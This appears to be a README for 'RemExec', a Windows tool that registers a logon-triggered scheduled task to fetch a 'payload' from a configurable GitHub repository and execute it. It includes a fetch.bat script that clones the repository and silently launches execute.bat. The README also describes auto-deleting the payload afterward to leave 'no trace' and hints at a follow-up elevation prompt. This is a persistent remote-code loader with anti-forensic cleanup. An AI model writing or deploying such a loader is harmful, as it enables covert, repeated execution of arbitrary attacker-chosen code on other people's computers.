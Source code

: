 To install it run the "elevate.bat" no admin required for now... It will be required ~3 seconds later :). This will create a task from "fetch.xml" that is visible in Task Scheduler on main page and will be started at user logon!

*create "safe.txt" to bypass the payload execution! If installed via installer in ("%localappdata%\Programs\RemExec") or in root folder (after extraction) in case of RemExec is downloaded from here*
  
  
  
  
  RemExec is a program that is used to download payload from a repository and execute it on a pc at startup!

1. At logon a task is scheduled to run and download the payload
  
2. It runs itself
  
3. After exiting auto-deletes the folder of payload and script leaving no trace!

Costumize the github repo that is used to download the payload from the .\config\user.txt / repository.txt


+ The Payloads are fully costumizable to run anything.
+ Won't run with admin by itself! A elevation script / 3rd party is required to run the payload as admin!
+ Any 3rd parties / any additional files can be placed in same repository besides payload. Both / All of them will be downloaded.  


Code for "fetch.bat"

        @echo off
        call git clone https://github.com/USER/REPOSITORY.git
        start /min execute.bat
        exit
